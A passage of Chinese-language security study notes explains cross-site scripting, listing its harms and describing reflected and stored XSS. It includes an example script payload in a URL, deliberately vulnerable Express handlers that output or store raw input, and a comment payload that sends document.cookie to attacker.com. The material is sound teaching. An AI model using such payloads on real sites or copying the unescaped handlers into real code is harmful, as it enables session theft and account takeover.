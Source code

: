 ### 2.2. XSS 的危害

- **窃取用户信息**
	- Cookie/Session 信息
	- 用户隐私数据
	- 登录凭证
- **网络钓鱼**
	- 伪造登录框
	- 诱导用户输入敏感信息
- **篡改页面内容**
	- 植入恶意广告
	- 修改页面展示
	- 破坏网站正常功能
- **利用用户权限**
	- 以用户身份发送请求
	- 执行特权操作

### 2.3. XSS 的三种类型

#### 2.3.1. 反射型 XSS（非持久型）

- 反射型 XSS 是最简单的 XSS 攻击。
- 攻击者将恶意代码拼接在 `URL` 中，`服务器`接收到请求后，将**恶意代码"反射"回浏览器执行**。
	- 总结：前端提交 → 后端处理 → 再反射回前端执行

```javascript hl:1,4
// 示例 URL
http://example.com/search?q=<script>alert('XSS')</script>

// 易受攻击的服务器代码
app.get('/search', (req, res) => {
    res.send(`搜索结果：${req.query.q}`); // 直接输出用户输入
});
```

#### 2.3.2. 存储型 XSS（持久型）

- 存储型 XSS 是最危险的 XSS 攻击。
- 攻击者将恶意代码存储在目标服务器上（如数据库中），当**其他用户**浏览包含此恶意代码的页面时，就会执行攻击代码。
	- 影响范围大，因为**不止影响用户自己**

```javascript
// 典型场景：评论系统
// 攻击者提交的评论
const maliciousComment = `
    <script>
        // 窃取 cookie
        new Image().src = 'http://attacker.com/steal?cookie=' + document.cookie;
    </script>
`;

// 易受攻击的服务器代码
app.post('/comment', (req, res) => {
    db.comments.save(req.body.comment); // 直接存储用户输入
});
```
